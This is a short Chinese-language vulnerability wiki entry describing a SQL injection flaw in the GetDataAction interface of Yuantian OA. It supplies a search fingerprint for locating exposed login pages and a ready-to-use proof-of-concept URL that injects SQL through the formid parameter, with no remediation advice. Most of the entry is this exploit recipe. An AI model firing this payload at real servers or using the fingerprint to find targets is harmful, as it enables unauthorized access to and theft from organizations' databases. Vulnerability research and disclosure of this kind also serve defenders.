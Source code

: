 # 源天OA GetDataAction SQL注入漏洞

## 漏洞描述

源天OA GetDataAction 接口存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的数据，造成信息泄漏

## 漏洞影响

<a-checkbox checked>源天OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/vmain/login.jsp"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1663996343936-60b88623-1eb8-4674-8c7d-a02711370fe7.png)

验证POC

```sql
/ServiceAction/ServiceAction/com.velcro.base.GetDataAction?action=checkname&formid=-1%27%20OR%207063%20IN%20(SELECT%20(sys.fn_varbintohexstr(hashbytes(%27MD5%27,%271%27))))%20AND%20%27a%27=%27a
```

![img](/assets/PeiQi-Wiki/img/1663996456021-f64802b1-a401-4357-a37e-7bb2a8e1d52e.png)